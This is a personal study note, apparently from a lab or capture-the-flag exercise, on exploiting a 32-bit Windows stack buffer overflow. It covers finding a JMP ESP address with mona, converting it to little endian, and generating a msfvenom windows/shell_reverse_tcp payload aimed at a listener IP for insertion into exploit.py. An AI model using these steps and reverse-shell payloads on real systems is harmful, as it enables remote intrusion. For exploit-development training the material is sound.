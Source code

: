 # Finding jump point
That we know what bad chars are we need to find the jump point 

## Using mona 

``` 
!mona jmp -r esp -cpb "BAD_CHARS_HERE"
!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"
```
![[Pasted image 20221221182639.png]]
![[Pasted image 20221221182857.png]]
Found 9 jump points so copying first one 
Jump:625011af
This value is in big endian  format so we need to write it in little endian  because it's a 32 bit bufferoverflow so we Just need to write it in reverse every two it will be
```
\xaf\x11\x50\x62 
```
And add it to retn variable in exploit.py

### Making sure jump point works before exploiting 
To make sure that everything going to work we can copy the jump address we got re run the app and jump to The address 
![[Pasted image 20221221183603.png]]
![[Pasted image 20221221183621.png]]
![[Pasted image 20221221183707.png]]
Right click the address and choose Toggle
When ever the EIP is loaded with this it's going to pause the program 
Run our exploit.py
![[Pasted image 20221221184407.png]]
And we can see that our program is paused because it hit the jump point 

# Generate payload

Using msfvenom we can generate a code 

```
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "BAD_CHARS" -f c

msfvenom -p windows/shell_reverse_tcp LHOST=10.8.42.86 LPORT=9001 EXITFUNC=thread -b "\x00\x07\x2e\a0" -f c

-a # for x86 or x64
```

![[Pasted image 20221221184741.png]]
Copy the output and put it inside payload variable in exploit.py
![[Pasted image 20221221184909.png]]
Don't forget to add () 

